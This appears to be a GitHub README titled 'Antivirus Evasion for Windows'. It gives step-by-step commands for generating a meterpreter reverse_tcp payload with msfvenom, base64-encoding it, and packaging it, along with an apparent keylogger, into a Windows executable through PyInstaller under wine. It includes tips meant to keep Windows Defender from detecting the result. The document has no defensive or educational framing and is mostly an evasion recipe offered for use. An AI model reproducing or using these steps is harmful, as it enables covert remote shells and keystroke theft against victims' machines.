 # Antivirus Evasion for Windows

# Install Metasploit

Metasploit: https://github.com/rapid7/metasploit-framework run the nightly script from github for installation

# Then install rest with

install.sh

This script might need modification on different linux versions.

# Create payload with python2 interpreter
<code>
which python2
</code>

Take care when installing packages with locally before crosscompiling to add the --user flag and look for the right pip version
<code>
python2.7 -m pip install pynput==1.0 --user
</code>


# Usage

msfvenom -p python/meterpreter/reverse_tcp LHOST=10.0.2.10 LPORT=443 -f raw -o mrtp.py
pythonpayload.py | base64 
Replace this string with the base64 string in mrtp.py

Super helpful thread:
https://www.reddit.com/r/HowToHack/comments/ghfkrh/pyinstaller_getting_picked_up_by_windows_defender/

## Bundeling
Read this before starting: https://arcade.academy/tutorials/bundling_with_pyinstaller/index.html
Install the necessary imports with
<code>
#This is example for the keylogger
wine ~/.wine/drive_c/Python27/python.exe -m pip install pynput==1.0 
wine ~/.wine/drive_c/Python27/python.exe -m pip install cryptography==3.3
</code>

<code>
wine ~/.wine/drive_c/Python27/python.exe -m PyInstaller --onefile  -w --hidden-import=pynput --hidden-import=cryptography mrtp.py
</code>

Do not use the --noconsole flag for pyinstaller cause Windows Defender will pick it up
The exe-file is in the dist folder
Test it on wine with wine dist/mrtp.py



# Sources: 
- https://pentestmag.com/antivirus-evasion-with-python/
- https://www.andreafortuna.org/2017/12/27/how-to-cross-compile-a-python-script-into-a-windows-executable-on-linux/
- https://www.youtube.com/watch?v=ozPaEWN4GnM
- https://stackoverflow.com/questions/63342345/cant-install-pyinstaller-at-ubuntu
- https://www.quora.com/How-do-I-make-an-executable-file-exe-which-runs-in-the-Windows-Environment-from-Python-py-file?share=1